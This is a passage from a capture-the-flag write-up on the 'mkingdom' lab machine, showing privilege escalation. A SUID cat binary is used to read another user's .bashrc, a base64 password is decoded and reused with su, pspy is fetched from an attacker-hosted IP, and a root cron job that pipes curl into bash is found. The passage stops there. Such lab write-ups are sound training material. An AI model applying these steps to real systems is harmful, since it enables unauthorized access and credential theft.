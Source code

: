 Checking for `suid` binaries, we discover `/bin/cat`.

```console
www-data@mkingdom:/var/www$ find / -type f -perm -u=s 2>/dev/null
/bin/cat
```

It is owned by the `toad` user.

```console
www-data@mkingdom:/var/www$ ls -la /bin/cat
-rwsr-xr-x 1 toad root 47904 Mar 10  2016 /bin/cat
```

Using this, we are able to read files as the `toad` user.

Checking the usual files inside the user's home directory, we discover some credentials inside the `.bashrc` file.

```console
www-data@mkingdom:/var/www$ /bin/cat /home/toad/.bashrc
...
export PWD_token='aWthVGVOVEFOdEVTCg=='
```

Decoding it from `base64`, we get a password.

```console
www-data@mkingdom:/var/www$ echo aWthVGVOVEFOdEVTCg== | base64 -d
ikaTeNTANtES
```

Trying the password for the users on the machine, it works for the `mario` user. We are able to switch to the user using `su` and read the user flag.

```console
www-data@mkingdom:/var/www$ su - mario
Password:
mario@mkingdom:~$ id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
mario@mkingdom:~$ wc -c user.txt
38 user.txt
```

> Since the `cat` binary runs as the `toad` user, you won't be able to read the flag with it, but you can use `tac`,`nano`,`less` or many other binaries for it.
{: .prompt-tip }

## Shell as root

### Discovering the cronjob

Checking the running processes using `pspy`, we discover a `cronjob` run by the `root` user.

```console
mario@mkingdom:~$ wget 10.11.72.22/pspy64
...
mario@mkingdom:~$ chmod +x pspy64
mario@mkingdom:~$ ./pspy64
...
2024/06/14 18:03:01 CMD: UID=0     PID=2577   | CRON
2024/06/14 18:03:01 CMD: UID=0     PID=2578   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```
